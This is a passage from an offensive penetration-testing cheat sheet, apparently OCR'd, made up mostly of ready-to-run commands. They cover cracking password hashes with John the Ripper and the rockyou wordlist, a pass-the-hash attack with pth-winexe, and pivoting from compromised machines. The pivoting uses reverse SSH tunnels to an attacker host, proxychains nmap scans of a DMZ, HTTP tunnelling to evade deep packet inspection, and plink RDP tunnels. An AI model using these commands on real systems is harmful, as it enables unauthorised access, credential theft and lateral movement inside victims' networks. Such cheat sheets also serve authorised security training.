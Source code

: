         `unshadow passwd-file.txt shadow-file.txt > unshadowed.txt`

- John the Ripper - Password Hash Cracking
  - `john $ip.pwdump`
  - `john --wordlist=/usr/share/wordlists/rockyou.txt hashes`
  - `john --rules --wordlist=/usr/share/wordlists/rockyou.txt`
  - `john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt`
  - JTR forced descrypt cracking with wordlist  
        `john --format=descrypt --wordlist  /usr/share/wordlists/rockyou.txt hash.txt`
  - JTR forced descrypt brute force cracking  
        `john --format=descrypt hash --show`
- Passing the Hash in Windows
  - Use Metasploit to exploit one of the SMB servers in the labs.
        Dump the password hashes and attempt a pass-the-hash attack
        against another system:  
        `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896`

        `pth-winexe -U administrator //$ip cmd`

## Networking, Pivoting and Tunneling

- Port Forwarding - accept traffic on a given IP address and port and
    redirect it to a different IP address and port
  - `apt-get install rinetd`
  - `cat /etc/rinetd.conf`
      ```shell
      # bindadress bindport connectaddress connectport
      w.x.y.z 53 a.b.c.d 80
      ```
- SSH Local Port Forwarding: supports bi-directional communication
    channels
  - `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`
- SSH Remote Port Forwarding: Suitable for popping a remote shell on
    an internal non routable network
  - `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`
- SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local
    attacking box to tunnel ALL incoming traffic to ANY host in the DMZ
    network on ANY PORT
  - `ssh -D <local proxy port> -p <remote port> <target>`
- Proxychains - Perform nmap scan within a DMZ from an external
    computer
  - Create reverse SSH tunnel from Popped machine on :2222  
    - `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com`
    - `ssh -f -N -R 2222:<local host>:22 root@<remote host>`
  - Create a Dynamic application-level port forward on 8080 thru
        2222  
    - `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`
  - Leverage the SSH SOCKS server to perform Nmap scan on network
        using proxy chains  
    - `proxychains nmap --top-ports=20 -sT -Pn $ip/24`
- HTTP Tunneling  
      `nc -vvn $ip 8888`
- Traffic Encapsulation - Bypassing deep packet inspection
  - http tunnel  
        On server side:  
        `sudo hts -F <server ip addr>:<port of your app> 80`
        On client side:  
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`
- Tunnel Remote Desktop (RDP) from a Popped Windows machine to your
    network
  - Tunnel on port 22  
        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`
  - Port 22 blocked? Try port 80? or 443?  